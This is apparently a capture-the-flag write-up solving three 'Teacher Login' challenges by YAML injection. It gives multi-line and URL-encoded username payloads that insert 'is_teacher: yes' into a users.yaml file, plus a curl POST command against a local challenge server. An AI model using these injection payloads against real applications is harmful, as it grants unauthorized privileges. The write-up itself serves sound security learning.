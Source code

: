# YAML Injection

## Teacher Login 2

```text
YAML Injection Login

Welcome! Can you log in as teacher?

Current Database (users.yaml)

Add a User
Username:

Login
Username:
```

The input fields are of **textarea** type

On adding a user, the database looks like:

```yaml
- username: user
  is_teacher: no
```

Injecting "is_teacher: yes" by adding a user of name:

```text
user2
  is_teacher: yes
- username: user3
```

Now, the database looks like:

```yaml
- username: user2
  is_teacher: yes
- username: user3
  is_teacher: no
- username: user
  is_teacher: no
```

Logging in by "user2" gives the flag

## Teacher Login 3

This is similar to the previous one, except the input fields are of **text** type, so we cannot send multi-line inputs

On inspecting, we see that the request for adding a user is made at `/add?user=<username>`

URL-encode the previous payload and add the user: `/add?user=user2%0A%20%20is_teacher%3A%20yes%0A-%20username%3A%20user3`

Then proceed as before to get the flag

## Teacher Login 4

This is similar to the previos one, except that in this one, POST request is used instead of GET

We can use curl to make the POST request:

```shell
curl 'http://challenge.localhost/add' -X POST --data-raw $'user=user2\n  is_teacher: yes\n- username: user3'
```

> The `$` is needed to pass newline in the payload
